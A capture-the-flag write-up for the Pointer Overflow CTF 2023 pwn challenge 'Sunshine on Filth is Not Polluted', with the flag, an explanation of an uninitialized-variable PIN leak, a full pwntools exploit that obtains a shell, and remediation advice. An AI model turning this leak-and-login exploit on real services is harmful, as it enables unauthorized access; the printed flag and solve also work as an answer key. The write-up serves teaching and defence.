






# Sunshine on Filth is Not Polluted

**Category:** Exploitation (Pwn)
**Challenge:** Sunshine on Filth is Not Polluted
**CTF:** Pointer Overflow CTF 2023
**Result:** Solved

**Flag:**

~~~text
poctf{uwsp_7h3_1355_y0u_kn0w_7h3_837732}
~~~

---

## 1. Challenge Overview

This challenge requires logging in with a valid username and PIN code to receive a shell. The username is easy to identify (`admin`), but the PIN is randomly generated at runtime. Two MD5 hashes are provided as hints:

~~~text
f704f57ea420275ad51bf55b7dec2c96
87cd8b8808600624d8c590cfc2e6e94b
~~~

**Target:** `34.123.210.162:20231`

---

## 2. Decoding the Hints

The two 32-character hex strings are MD5 hashes. Using online MD5 lookup tools:

~~~text
f704f57ea420275ad51bf55b7dec2c96 -> Uninitialized
87cd8b8808600624d8c590cfc2e6e94b -> variables
~~~

The hint is: **Uninitialized variables**.

---

## 3. Vulnerability Analysis

The program flow:

1. Generates a random PIN code (`auth_code`) and stores it on the stack
2. Presents a menu: (1) Enter username, (2) Confirm username, (3) Login
3. The username buffer (`src`) overlaps with the stack region where `auth_code` was stored

The key insight: if we select option 2 (Confirm username) **before** entering a username with option 1, the `src` variable is uninitialized. The program prints whatever is on the stack at that location, which happens to be the previously stored `auth_code`.

### Stack Analysis

Dynamic debugging confirms that the stack location of `auth_code` (at generation time) and `src` (at print time) overlap:

---

## 4. Exploitation Strategy

1. Choose option 2 first (Confirm username) to leak the uninitialized `auth_code` from the stack
2. Parse the leaked bytes as a little-endian integer
3. Choose option 1 to set username to `admin`
4. Choose option 3 to login with the leaked PIN
5. Get a shell and read the flag from `/home/re3/`

---

## 5. Exploit Script

~~~python
# Original solve by a101e-lab, adapted for this writeup
from pwn import *

r = remote('34.123.210.162', 20231)
r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')

# Leak auth_code via uninitialized variable
r.sendline(b'2')
raw_code = r.recvline()
raw_code = raw_code.split(b':')[-1].strip()
auth_code = int.from_bytes(raw_code, 'little')
print(f"Leaked auth_code: {auth_code}")

# Set username
r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
r.sendline(b'1')
r.recvuntil(b'Username: ')
r.sendline(b'admin')

# Login with leaked code
r.recvuntil(b'Options: (1) Enter username, (2) Confirm username, (3) Done: ')
r.sendline(b'3')
r.recvuntil(b'Enter your authentication code: ')
r.sendline(str(auth_code).encode())
r.interactive()
~~~

---

## 6. Attack Path Summary

~~~text
Binary with random auth_code on stack
    |
Option 2 before Option 1 -> leak uninitialized src (= auth_code)
    |
Parse leaked bytes as integer
    |
Option 1: set username "admin"
    |
Option 3: login with leaked auth_code -> shell
    |
cat /home/re3/flag -> FLAG
~~~

The leetspeak reads: "the less you know the better."

---

## 7. Lessons Learned

| # | Finding | Real-World Relevance | Key Takeaway |
|---|---------|---------------------|--------------|
| 1 | Uninitialized variables leak sensitive stack data | CVE-2017-7308 (Linux kernel) and numerous other CVEs stem from uninitialized memory disclosure | Always initialize variables before use, especially those that will be printed or sent to users |
| 2 | Stack memory reuse creates information disclosure | Functions that share stack frames inherit leftover data from previous calls | Compile with `-ftrivial-auto-var-init=zero` to zero-initialize all local variables |
| 3 | Operation ordering assumptions are exploitable | The program assumes users will follow the "correct" menu order | Enforce state machine logic: block operations that require preconditions to be met first |

---

## MITRE ATT&CK Mapping

| Phase | Tactic | Technique | TTP-ID |
|-------|--------|-----------|--------|
| Credential Access | TA0006 | Exploitation for Credential Access | T1212 |
| Initial Access | TA0001 | Exploit Public-Facing Application | T1190 |
| Defense Evasion | TA0005 | Exploitation for Defense Evasion | T1211 |

> MITRE ATT&CK: https://attack.mitre.org/

---

## Remediation and Containment

### Technical Fixes

1. Initialize all local variables at declaration time, especially security-sensitive ones
2. Compile with `-Wuninitialized` and treat warnings as errors (`-Werror`)
3. Use memory sanitizers (ASan, MSan) during development to catch uninitialized reads
4. Enforce state machine logic: operations requiring prior state should check preconditions

### MITRE D3FEND Countermeasures

- **D3-MFA Multi-Factor Authentication** to prevent single-factor (PIN-only) authentication bypass (counters T1212)
- **D3-SEA Stack Frame Canary Validation** to detect stack manipulation (counters T1190)

### NIST CSF 2.0

- **Protect (PR.AC-7):** Users, devices, and assets are authenticated commensurate with risk
- **Detect (DE.CM-4):** Malicious code and exploitation attempts are detected at endpoints

### NIST SP 800-53 Rev. 5

- **SI-16: Memory Protection** (prevent information disclosure through uninitialized memory)
- **SA-11: Developer Security Testing** (use static analysis to find uninitialized variable usage)

### CWE

- **CWE-457: Use of Uninitialized Variable** (printing `src` before initialization leaks `auth_code`)
- **CWE-200: Exposure of Sensitive Information** (random PIN leaked through uninitialized memory)

---

## References

- Based on solve approach from [a101e-lab](https://github.com/a101e-lab/CTF-Writeups)

---

Thanks guys!! (❍ᴥ❍ʋ)

---

Uninitialized variables are a classic but often overlooked vulnerability class; one stale stack frame can spill your secrets. If this exploit walkthrough made the concept click, share it with your study group.

- Instagram: https://www.instagram.com/uniaogeek
- LinkedIn: http://linkedin.com/in/mrhenrike
- X: https://x.com/mrhenrike
